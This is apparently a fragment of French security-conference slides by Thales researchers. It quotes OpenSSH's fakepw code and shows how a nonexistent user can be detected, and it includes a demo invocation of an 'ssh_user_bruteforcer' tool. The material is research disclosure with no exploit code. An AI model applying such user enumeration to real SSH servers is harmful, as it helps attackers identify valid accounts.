Kernel Same page Merging
Kernel Same page Merging
L'utilisateur inexistant existe !
if (authctxt->pw && strcmp(service, "ssh-connection")==0) {
authctxt->valid = 1;
debug2("input_userauth_request: setting up authctxt for %s", user);
} else {
logit("input_userauth_request: invalid user %s", user);
authctxt->pw = fakepw();
}
struct passwd *
fakepw(void)
{
static struct passwd fake;
memset(&fake, 0, sizeof(fake));
fake.pw_name = "NOUSER";
fake.pw_passwd = "$2a$06$r3.
juUaHZDlIbQaO2dS9FuYxL1W9M81R1Tc92PoSNmzvpEqLkLGrK";
fake.pw_uid = privsep_pw == NULL ? (uid_t)-1 : privsep_pw->pw_uid;
fake.pw_gid = privsep_pw == NULL ? (gid_t)-1 : privsep_pw->pw_gid;
fake.pw_dir = "/nonexist";
fake.pw_shell = "/nonexist";
return (&fake);
}
Test de la présence d'un utilisateur
DÉMO
user@vm1 $ ./ssh_user_bruteforcer
Merci de votre attention !
Questions
?
david.berard@thalesgroup.com
vincent.fargues@thalesgroup.com
vincent.fargues@thalesgroup.com